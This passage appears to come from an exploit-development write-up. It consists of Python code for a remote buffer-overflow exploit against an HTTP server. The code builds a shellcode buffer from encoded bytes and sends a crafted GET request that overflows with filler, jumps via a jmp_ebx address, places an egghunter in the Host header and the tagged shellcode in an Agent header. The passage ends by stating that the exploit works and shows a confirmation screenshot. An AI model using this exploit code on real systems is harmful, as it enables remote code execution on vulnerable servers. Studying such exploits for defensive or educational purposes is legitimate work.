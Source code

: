 ```
buf += b"\xef\x73\xdd\xbc\x64\xdb\xc2\x43\xa8\x50\xfe\xc8\x4f"
buf += b"\xb6\x76\x8a\x6b\x12\xd2\x48\x15\x03\xbe\x3f\x2a\x53"
buf += b"\x61\x9f\x8e\x18\x8c\xf4\xa2\x43\xd9\x39\x8f\x7b\x19"
buf += b"\x56\x98\x08\x2b\xf9\x32\x86\x07\x72\x9d\x51\x67\xa9"
buf += b"\x59\xcd\x96\x52\x9a\xc4\x5c\x06\xca\x7e\x74\x27\x81"
buf += b"\x7e\x79\xf2\x06\x2e\xd5\xad\xe6\x9e\x95\x1d\x8f\xf4"
buf += b"\x19\x41\xaf\xf7\xf3\xea\x5a\x02\x94\xb8\x8b\x14\xa8"
buf += b"\xa9\xa9\x24\x21\x76\x27\xc2\x2b\x96\x61\x5d\xc4\x0f"
buf += b"\x28\x15\x75\xcf\xe6\x50\xb5\x5b\x05\xa5\x78\xac\x60"
buf += b"\xb5\xed\x5c\x3f\xe7\xb8\x63\x95\x8f\x27\xf1\x72\x4f"
buf += b"\x21\xea\x2c\x18\x66\xdc\x24\xcc\x9a\x47\x9f\xf2\x66"
buf += b"\x11\xd8\xb6\xbc\xe2\xe7\x37\x30\x5e\xcc\x27\x8c\x5f"
buf += b"\x48\x13\x40\x36\x06\xcd\x26\xe0\xe8\xa7\xf0\x5f\xa3"
buf += b"\x2f\x84\x93\x74\x29\x89\xf9\x02\xd5\x38\x54\x53\xea"
buf += b"\xf5\x30\x53\x93\xeb\xa0\x9c\x4e\xa8\xd1\xd6\xd2\x99"
buf += b"\x79\xbf\x87\x9b\xe7\x40\x72\xdf\x11\xc3\x76\xa0\xe5"
buf += b"\xdb\xf3\xa5\xa2\x5b\xe8\xd7\xbb\x09\x0e\x4b\xbb\x1b"

buffer =  "GET /" + (230) * "A" + jmp_ebx + "A" * (240-230-4)  + " HTTP/1.1\r\n"
buffer += "Host: " + "\x90" * 10 + egghunter + "\r\n"
buffer += "Agent: w00tw00t" + buf + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(buffer)
s.close()
```

Confirmation that exploit is working:

![Confirmation](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_09.png?raw=true)



